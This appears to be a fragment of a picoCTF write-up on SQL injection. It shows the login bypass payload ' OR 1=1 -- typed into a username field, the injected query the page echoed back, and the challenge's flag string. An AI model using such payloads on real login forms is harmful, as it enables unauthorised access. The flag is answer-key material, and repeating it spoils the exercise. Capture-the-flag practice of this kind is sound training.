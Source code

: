 ```html
<pre>username: ' OR 1=1 -- 
password: 
SQL query: SELECT * FROM users WHERE name='' OR 1=1 -- ' AND password=''
</pre><h1>SQLi detected.</h1>
```

## Flag

picoCTF{m0R3_SQL_plz_c34df170}

## More Information

 - SQL Injection : https://www.w3schools.com/sql/sql_injection.asp 

